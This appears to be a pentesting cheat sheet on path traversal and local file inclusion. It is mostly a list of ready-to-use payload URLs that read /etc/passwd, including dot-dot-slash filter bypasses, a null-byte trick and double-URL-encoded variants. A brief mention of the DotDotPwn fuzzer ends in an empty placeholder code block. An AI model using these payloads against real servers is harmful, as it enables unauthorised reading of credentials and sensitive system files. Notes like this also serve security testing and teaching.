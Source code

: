 # Path Traversal/File Inclusion

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

* Application code and data.
* Credentials for back-end systems.
* Sensitive operating system files.

## Basic LFI and bypasses

```bash
http://example.com/home.php?id=../../../etc/passwd
http://example.com/home.php?id=....//....//etc/passwd
http://example.com/home.php?id=..///////..////..//////etc/passwd
http://example.com/home.php?id=....//....//....//etc/passwd
http://example.com/home.php?id=....\/....\/....\/etc/passwd
http://example.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
http://example.com/home.php?id=/var/www/../../etc/passwd
```

## Null Byte

Bypass by appending additional characters to the end of the provided string (bypassing: `$_GET['param']."php"`)

```bash
http://example.com/home.php?id=../../../../etc/passwd%00
```

This is **solved since PHP 5.4**

## Encoding

You could use non-standard encondings like double URL encode:

```bash
http://example.com/home.php?id=..%252f..%252f..%252fetc%252fpasswd
http://example.com/home.php?id=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd%00
```

## From existent folder

It's possible that the back-end is verifying the folder path:

```bash
http://example.com/home.php?id=utils/scripts/../../../../../etc/passwd
```











## [DotDotPwn](https://github.com/wireghoul/dotdotpwn)

It's a very flexible intelligent fuzzer to discover traversal directory vulnerabilities in software such as HTTP/FTP/TFTP servers, Web platforms such as CMSs, ERPs, Blogs, etc.

```
// Some code
```

